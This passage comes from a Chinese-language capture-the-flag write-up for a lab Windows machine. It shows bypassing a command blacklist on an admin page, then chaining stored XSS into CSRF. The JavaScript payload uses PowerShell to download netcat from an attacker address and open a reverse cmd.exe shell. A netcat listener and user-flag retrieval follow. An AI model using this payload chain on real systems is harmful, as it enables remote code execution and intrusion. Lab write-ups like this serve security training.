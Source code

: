 首先用户的 Cookie 值需要为管理员用户，其中黑名单关键词为`$(`、`&`，如果存在其中一个关键词，系统提示无法执行，同时它会检查命令前三个字符是否为`dir`，通过后检查远程地址是否为`localhost`，如果是的话传递给命令行进行执行。那么我们需要考虑的问题是如何从本地发送我们的请求，至于执行命令可以通过`&`或`|`符号将其他命令链接到`dir`

### XSS+CSRF

首先考虑从之前的 XSS 漏洞入手，在第一次通过 XSS 获取 Cookie 我们发现对方管理员的请求IP为10.10.10.154，即是服务器地址。因此我们可以提交请求，让对方管理员帮助我们执行 JavaScript 代码，从而实现 CSRF。首先创建一个 JavaScript 代码用于执行 payload

```
var request = new XMLHttpRequest();  
var params = 'cmd=dir|powershell -c "iwr -uri 10.10.14.16/nc64.exe -outfile %temp%\\nc.exe";%temp%\\nc.exe -e cmd.exe 10.10.14.16 4444';  
request.open('POST','http://localhost/admin/backdoorchecker.php',true);  
request.setRequestHeader('Content-type','application/x-www-form-urlencoded');  
request.send(params);  

```

同时提交 XSS payload

```
<script src="http://10.10.14.16/shell.js"></script>  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)截屏2022-02-10 下午3.32.03

将`nc64.exe`复制到当前目录并开启 web 服务

```
python -m SimpleHTTPServer 80  

```

在本地监听4444端口

```
rlwrap nc -nvlp 4444  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)成功拿到反弹shell，在当前用户桌面上寻找第一个flag

```
dir c:\Users\Cortin\Desktop  
type c:\Users\Cortin\Desktop\user.txt  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)成功获取到第一个flag

0x03 权限提升[system]
-----------------

### 信息收集

在C盘根目录下发现二进制文件`backv2.exe`
